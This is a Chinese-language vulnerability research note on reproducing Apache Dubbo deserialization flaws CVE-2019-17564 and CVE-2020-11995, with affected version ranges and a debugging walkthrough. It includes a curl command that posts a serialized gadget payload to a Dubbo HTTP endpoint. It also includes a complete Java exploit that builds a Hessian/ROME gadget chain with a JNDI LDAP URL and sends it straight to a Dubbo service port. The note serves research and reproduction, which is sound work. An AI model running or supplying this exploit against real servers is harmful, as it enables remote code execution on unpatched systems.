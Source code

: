 首先先下载`zookeeper`,`3.1.14`版本最好,其他版本环境老是出问题

## 源码解析

https://www.anquanke.com/post/id/197658#h3-3

## CVE-2019-17564

https://y4er.com/post/apache-dubbo-cve-2019-17564/

> 2.7.0 <= Apache Dubbo <= 2.7.4
>
> 2.6.0 <= Apache Dubbo <= 2.6.7
>
> Apache Dubbo = 2.5.x

发送payload:

```cmd
curl -XPOST --data-binary @CC4.ser http://192.168.182.1:8080/org.apache.dubbo.samples.http.api.DemoService
```

## CVE-2020-11995

CVE-2020-1948的绕过

漏洞复现了好久都没有成功,最后看的这一篇

https://www.bbsmax.com/A/obzbQZDbdE/

https://www.anquanke.com/post/id/209251

```
2.7.0 <= Dubbo Version <= 2.7.6
2.6.0 <= Dubbo Version <= 2.6.7
Dubbo 所有 2.5.x 版本（官方团队目前已不支持）
```

这里用了@service暴露服务

![image-20220223170527331](img/image-20220223170527331.png)

让我们的客户端可以调用该对象

![image-20220223170612759](img/image-20220223170612759.png)

直接对服务端口发送数据进行攻击

```java
import com.caucho.hessian.io.Hessian2Output;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;

import marshalsec.HessianBase;
import marshalsec.util.Reflections;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.Cleanable;

public class GadgetsTestHessian {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        //todo 此处填写ldap url
        rs.setDataSourceName("ldap://127.0.0.1:8087/ExecTest");
        rs.setMatchColumn("foo");
        Reflections.setFieldValue(rs, "listeners",null);

        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

        HashMap s = new HashMap<>();
        Reflections.setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
        Reflections.setFieldValue(s, "table", tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 0x20 | 2);

        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(hessian2ByteArrayOutputStream);
        HessianBase.NoWriteReplaceSerializerFactory sf = new HessianBase.NoWriteReplaceSerializerFactory();
        sf.setAllowNonSerializable(true);
        out.setSerializerFactory(sf);

        out.writeObject(s);

        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }

        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

        //todo 此处填写被攻击的dubbo服务提供者地址和端口
        Socket socket = new Socket("127.0.0.1", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```







我自己看到过两款`payload`,

![image-20220223215745008](img/image-20220223215745008.png)

对应的触发点不一样,

当为`((byte)0x80|0x20|2)`时,

![image-20220224140644444](img/image-20220224140644444.png)

会进入这一步,把Event设置为`true`

![image-20220224115012125](img/image-20220224115012125.png)

经过如下调用调用`readMap`函数

![image-20220224115400432](img/image-20220224115400432.png)



这里他只会反序列化下一个写入的数据,所以要在out后面直接将我们`map` write进去

![image-20220224120336036](img/image-20220224120336036.png)

不过这里没有过也没有关系,后面会进入到别的线程,这里读取需要反序列化的类名称,路径,方法名等等,然后在后面进行反序列化,这算是网上见到的最多的一种了,不过这里可以直接通过`readUTF`反序列化`Map`

![image-20220224120739220](img/image-20220224120739220.png)

在`readString`中调用了`int tag = this.read();`来获取类型(或者说字符串的长度?),这里读取到的是`72`,也就是为`map`时的标志,然后调用了`expect`方法

![image-20220224121719519](img/image-20220224121719519.png)

![image-20220224122013887](img/image-20220224122013887.png)

![image-20220224122031944](img/image-20220224122031944.png)

然后到了`2.7.9`版本,通过`((byte)0x80|0x20|2)`的方法把Event设置为`true`不能使用

![image-20220224140938859](img/image-20220224140938859.png)

然后再看看对于`CVE-2020-11995`是如何进行修复的

